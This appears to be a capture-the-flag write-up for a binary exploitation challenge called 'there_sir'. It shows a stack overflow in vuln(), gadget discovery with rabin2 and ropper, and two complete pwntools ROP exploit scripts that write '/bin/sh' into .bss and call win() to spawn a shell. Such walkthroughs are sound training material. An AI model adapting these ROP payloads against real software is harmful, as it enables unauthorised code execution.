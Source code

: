 # there\_sir

<figure><img src="../../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

Looking at `vuln()` decompiled:

```c
void vuln(void)

{
  undefined buffer [64];
  
  printf("Enter something: ");
  read(0,hurm,16);
  printf("Enter message: ");
  read(0,buffer,1024);
  return;
}
```

We can see a clear Overflow here:

```c
read(0,buffer,1024);
```

There is also a `win()` function:

```c
void win(int param_1,char *param_2)

{
  if (param_1 != 0x539) {
    printf("Nice try hacker");
    exit(0);
  }
  system(param_2);
  return;
}
```

We are required to pass in two arguments, `1337` and `/bin/sh` . But the catch here is that the 2'nd argument is pointer not an integer like 1'st argument. The solution is we need to use the `read()` syscall which has a PLT entry to read `/bin/sh` at a specific address.

```
❯ rabin2 -S chall
[Sections]

nth paddr        size vaddr       vsize perm type        name
―――――――――――――――――――――――――――――――――――――――――――――――――――――――――――――
0   0x00000000    0x0 0x00000000    0x0 ---- NULL
1   0x00000318   0x1c 0x00400318   0x1c -r-- PROGBITS    .interp
2   0x00000338   0x30 0x00400338   0x30 -r-- NOTE        .note.gnu.property
3   0x00000368   0x24 0x00400368   0x24 -r-- NOTE        .note.gnu.build-id
4   0x0000038c   0x20 0x0040038c   0x20 -r-- NOTE        .note.ABI-tag
5   0x000003b0   0x28 0x004003b0   0x28 -r-- GNU_HASH    .gnu.hash
6   0x000003d8  0x138 0x004003d8  0x138 -r-- DYNSYM      .dynsym
7   0x00000510   0x82 0x00400510   0x82 -r-- STRTAB      .dynstr
8   0x00000592   0x1a 0x00400592   0x1a -r-- GNU_VERSYM  .gnu.version
9   0x000005b0   0x30 0x004005b0   0x30 -r-- GNU_VERNEED .gnu.version_r
10  0x000005e0   0x60 0x004005e0   0x60 -r-- RELA        .rela.dyn
11  0x00000640   0xc0 0x00400640   0xc0 -r-- RELA        .rela.plt
12  0x00001000   0x1b 0x00401000   0x1b -r-x PROGBITS    .init
13  0x00001020   0x90 0x00401020   0x90 -r-x PROGBITS    .plt
14  0x000010b0   0x80 0x004010b0   0x80 -r-x PROGBITS    .plt.sec
15  0x00001130  0x25a 0x00401130  0x25a -r-x PROGBITS    .text
16  0x0000138c    0xd 0x0040138c    0xd -r-x PROGBITS    .fini
17  0x00002000   0x3f 0x00402000   0x3f -r-- PROGBITS    .rodata
18  0x00002040   0x5c 0x00402040   0x5c -r-- PROGBITS    .eh_frame_hdr
19  0x000020a0  0x140 0x004020a0  0x140 -r-- PROGBITS    .eh_frame
20  0x00002e10    0x8 0x00403e10    0x8 -rw- INIT_ARRAY  .init_array
21  0x00002e18    0x8 0x00403e18    0x8 -rw- FINI_ARRAY  .fini_array
22  0x00002e20  0x1d0 0x00403e20  0x1d0 -rw- DYNAMIC     .dynamic
23  0x00002ff0   0x10 0x00403ff0   0x10 -rw- PROGBITS    .got
24  0x00003000   0x58 0x00404000   0x58 -rw- PROGBITS    .got.plt
25  0x00003058   0x10 0x00404058   0x10 -rw- PROGBITS    .data
26  0x00003068    0x0 0x00404070   0x30 -rw- NOBITS      .bss
27  0x00003068   0x2b 0x00000000   0x2b ---- PROGBITS    .comment
28  0x00003098  0x498 0x00000000  0x498 ---- SYMTAB      .symtab
29  0x00003530  0x276 0x00000000  0x276 ---- STRTAB      .strtab
30  0x000037a6  0x11f 0x00000000  0x11f ---- STRTAB      .shstrtab
```

Using `rabin2` we can see which section we want to tell `read()` to look at, in this case I will choose `.bss` section because it has a lot of space and has RW permissions.

`read()`  takes in 3 arguments:

```
read(fd, dest-memory-address, num-of-bytes)
```

The file descriptor will be `0` (Read from `stdin` ). Other than that we need to make sure it has enough gadgets to pass in 3 arguments.&#x20;

```
❯ ropper --file chall --search "pop"
...
...
[INFO] File: chall
0x00000000004011fd: pop rbp; ret; 
0x0000000000401381: pop rdi; ret; 
0x0000000000401385: pop rdx; ret; 
0x0000000000401383: pop rsi; ret;
```

Perfect, we have the RDI, RSI and RDX gadgets. Now we can build the script

### Manual Script

```python
from pwn import *

elf = context.binary = ELF('./chall', checksec=False)
context.log_level = 'info'

io = process()


offset = 72

bss_location = 0x00404070
pop_rdi = 0x401381
pop_rsi = 0x401383
pop_rdx = 0x401385
win_addr = elf.sym['win']

# Find read address
read_plt = elf.plt['read']


payload = flat(
	b'A' * offset,

	pop_rdi,
	0,
	pop_rsi,
	bss_location,
	pop_rdx,
	16,
	read_plt,

	pop_rdi,
	1337,
	pop_rsi,
	bss_location,
	
	win_addr	
)

io.sendlineafter(b"Enter something: ", b"kambing")
io.sendlineafter(b"Enter message: ", payload)

# send "/bin/sh\0" to be written to .bss
io.sendline(b"/bin/sh\x00")
io.interactive()
```

After sending the payload, only then we send the `/bin/sh` string when `read()` is invoked, waiting input from `stdin` . This writes the string to that address.

```
❯ python3 script.py

[+] Starting local process '/home/mfkrypt/bbctf/pwn/there_sir/chall': pid 110461
...
...
[*] Loaded 8 cached gadgets for './chall'
[*] Switching to interactive mode
$ whoami
mfkrypt
$  
```

### Auto Script

We can also do a ROP chain to automatically write the string to that address without manually finding the gadgets, as the ROP function will do that for us

```python
from pwn import *

elf = context.binary = ELF('./chall', checksec=False)
context.log_level = 'debug'

io = process()


offset = 72

bss_location = 0x00404070
pop_rdi = 0x401381
pop_rsi = 0x401383
pop_rdx = 0x401385
win_addr = elf.sym['win']

# Find read address
read_plt = elf.plt['read']



#ROP chain
rop = ROP(elf)
rop.call(read_plt, [0, bss_location, 16])  # Read /bin/sh to .bss
rop.call(win_addr, [0x539, bss_location])   # Call win with args


payload = flat(
    b'A' * offset,    
    rop.chain()       
)

io.sendlineafter(b"Enter something: ", b"kambing")
io.sendlineafter(b"Enter message: ", payload)

# send "/bin/sh\0" to be written to .bss
io.sendline(b"/bin/sh\0")
io.interactive()
```

```
❯ python3 script.py

[+] Starting local process '/home/mfkrypt/bbctf/pwn/there_sir/chall': pid 110461
...
...
[*] Loaded 8 cached gadgets for './chall'
[*] Switching to interactive mode
$ whoami
mfkrypt
$  
```
